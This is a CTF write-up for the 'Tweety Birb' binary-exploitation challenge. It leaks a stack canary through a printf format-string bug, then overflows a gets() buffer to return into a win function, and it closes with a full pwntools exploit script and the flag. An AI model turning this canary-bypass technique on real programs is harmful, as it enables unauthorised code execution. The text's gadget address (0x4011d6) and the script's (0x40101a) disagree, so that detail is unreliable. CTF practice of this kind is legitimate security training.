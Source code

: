 +++
title = "Killer-Queen CTF: Tweety Birb"
date = "2021-10-29"
aliases = ["TweetyBirb"]
[ author ]
  name = "Lucas Sass Rósinberg"
+++

# Tweety Birb

We are given a binary with the following main function

```clike
int main(void) {
    char buffer [72];
    long canary = *(long *)(in_FS_OFFSET + 0x28);

    puts("What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it\'s not like you hacker can do anything. Anyways, what do you think of magpies?");
    gets(buffer);
    printf(buffer);

    puts("\nhmmm interesting. What about water fowl?");
    gets(buffer);

    if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
    }
    return 0;
}
```

We have a buffer of size 72. First, we have a call to `gets`, allowing us to write anything, including more than 72 characters, so we have a buffer overflow.

We also have a `win` function elsewhere which calls `cat flag.txt` in a shell, so we want to return to this by overwriting RSP. The problem here (which the title hints at) is that canaries are enabled. This means a random value is set up in the beginning of `main` right after the other local variables. At the end of `main` it checks if this canary has been modified, and if so crashes.

So the second we write more than 72 bytes to the buffer, we modify the canary, which results in a crash. What we want to modify lies after the canary.

The only way to get around this is by somehow leaking the canary. If we can do this, we can write 72 bytes of padding, followed by the canary and then what we want to place in RBP and RSP.

Luckily we ALSO have a format string vulnerability, since `printf(buffer)` is called directly on our input, allowing us to pass any format string. Since no other arguments are passed, if we input e.g. `%x`, the value that it prints will just be the next on the stack.

The canary also lies on the stack and by using `gdb` to debug the program, we can get the correct index in the stack, in this case 15. This means that if we pass `%15$p` to the first `gets()`, then the stack canary is leaked in the `printf()`.

We find the address of the `win` function with `objdump -d tweetybirb | grep win`, which returns `00000000004011d6 <win>:`. Now we can create the following payload:

- 72 bytes of padding
- leaked canary
- rbp (8 random bytes)
- rsp (0x4011d6)

We also need to remember to align the stack when run remotely, so we find a `ret` gadget with `ropper -f tweetybird` at address 0x4011d6 and add this before the `win` address.

We get the flag with the following script:

```python
from pwn import *

p = remote("143.198.184.186", 5002)

# LEAK CANARY IN
p.recvuntil(b"?\n")
p.sendline(b"%15$p")

canary = p64(int(p.recvline()[2:-1], 16))
log.success(f"Canary leaked: {canary}")

p.recvuntil(b"?\n")

# BUFFER OVERFLOW
padding = b"A" * 72
rbp = b"B" * 8
ret = p64(0x40101a)
win_addr = p64(0x4011d6)

payload = padding + canary + rbp + ret + win_addr
p.sendline(payload)

p.interactive()
```

The flag returned is

> kqctf{tweet*tweet_did_you_leak_or_bruteforce*...\_plz_dont_say_you_tried_bruteforce}

